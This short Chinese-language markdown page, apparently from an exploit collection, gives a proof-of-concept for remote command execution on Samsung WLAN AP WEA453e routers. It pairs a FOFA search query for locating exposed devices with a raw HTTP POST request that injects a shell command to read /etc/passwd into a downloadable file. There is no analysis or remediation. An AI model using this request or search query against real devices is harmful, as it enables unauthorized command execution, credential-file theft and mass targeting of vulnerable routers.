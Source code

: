 # WLAN AP WEA453e路由器 远程命令执行漏洞

## 资产搜索
fofa title=="Samsung WLAN AP"

## POC
```shell
POST /(download)/tmp/a.txt HTTP/1.1
Host: xxx.xxx.xxx.xxx

command1=shell:cat /etc/passwd| dd of=/tmp/a.txt
```
!()[img/rce.png]